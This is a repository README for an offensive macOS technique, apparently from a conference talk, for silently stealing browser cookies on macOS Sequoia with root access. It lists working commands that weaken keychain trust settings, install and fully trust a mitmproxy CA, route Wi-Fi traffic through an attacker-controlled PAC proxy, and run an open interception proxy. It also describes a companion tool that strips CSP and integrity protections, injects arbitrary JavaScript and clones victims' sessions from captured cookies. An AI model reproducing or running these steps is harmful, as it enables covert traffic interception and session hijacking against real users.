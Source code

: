 # Blender
This repository contains the technique presented at SOCON2025 for stealing cookies silently from MacOS Sequoia with only root privileges

## Description

The technique is composed of adding a certificate (mitmproxy custom CA) to the System keychain without any trust, which doesn't alert the user with any prompts. Next, we update com.apple.trust-settings.user authorizationDb with allow.
We create another Keychain and add the same certificate with full trust. When we go back to check the certificate in the System Keychain it should be fully trusted.

## Steps
1. sudo security authorizationdb write com.apple.trust-settings.user allow
2. sudo security add-certificates -k /Library/Keychains/System.keychain ca.crt
3. security add-trusted-cert -p ssl -p smime -p eap -p IPSec -p codeSign -p timestamping -k custom.keychain -p basic ca.crt
4. sudo security list-keychains -s custom.keychain ~/Library/Keychains/login.keychain
5. sudo networksetup -setautoproxyurl Wi-Fi https://yourdomain/proxy.pac
6. sudo networksetup -setautoproxystate Wi-Fi on 
7. mitmproxy --listen-host 0.0.0.0 --listen-port 8080 --set block_global=false

## CookieFeeder

This is another tool to help you disable all the protections from the intercepted traffic (CSP, Integrity, etc) and inject abitrary Javascript. You can use it in combination with [https://github.com/](https://github.com/MythicAgents/bowser). It also a chrome extension that allows you to clone the target's browser by simply embedding the captured cookies.
